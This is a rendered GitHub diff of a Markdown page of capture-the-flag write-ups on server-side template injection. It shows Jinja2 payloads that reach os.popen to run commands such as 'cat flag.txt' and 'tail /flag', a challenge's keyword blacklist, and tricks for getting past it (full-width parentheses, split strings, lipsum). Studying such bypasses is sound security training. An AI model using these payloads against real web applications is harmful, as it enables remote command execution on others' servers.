

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_10_challs.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/challenges/SSTI_10_challs.md
+++ b/challenges/SSTI_10_challs.md
@@ -75,3 +75,26 @@ Connection: close
   In this challenge, parenthesis were blacklistyed which means that any python command could not be executed. The way around this was to use full width parenthesis intead of half width which would serve the purpose and all bypass the filter.
  Final payload:```"{{ self._TemplateReferencecontext.cycler.init.globals__.os.popen（'cat flag.txt'）.read（）}}"@aaa.com```
 This payload was inserted into the email field and flag was obtained
+
+- ## Crewctf 2022 (Ezchall):
+  Blocks:
+  ```if input.count('.') > 1 or input.count(':') > 1 or input.count('/') > 1 :```
+limited payload size: ```if len(input) < 115```
+can’t use digits so we can’t bypass the blacklist with Unicode.
+```
+if char in string.digits:
+	return False
+```
+Finally, the blacklist.
+```UNALLOWED = [
+ 'class', 'mro', 'init', 'builtins', 'request', 'app','sleep', 'add', '+', 'config', 'subclasses', 'format', 'dict', 'get', 'attr', 'globals', 'time', 'read', 'import', 'sys', 'cookies', 'headers', 'doc', 'url', 'encode', 'decode', 'chr', 'ord', 'replace', 'echo', 'base', 'self', 'template', 'print', 'exec', 'response', 'join', 'cat', '%s', '{}', '\\', '*', '&',"{{", "}}", '[]',"''",'""','|','=','~']
+```
+
+Approach:
+  - {{ and }} are filtered, so we’ll probably use {%
+  - cycler.__init__.__globals__.os.popen('id').read()
+  - to make it easier to deal with blacklisted words and also the count of dots,changed it to this format: ```cycler['__init__']['__globals__']['os']['popen']('id')['read']()```
+  - we need to us an empty space between the blacklisted strings: ```cycler['__in' 'it__']['__glo' 'bals__']['os']['popen']('id')['rea' 'd']()```
+  - The only problem here, is that we’re exceeding the length limit. Solution was using lipsum.: ```lipsum['__glo' 'bals__']['os']['popen']('tail /flag')['re' 'ad']()```
+
+- ##
````
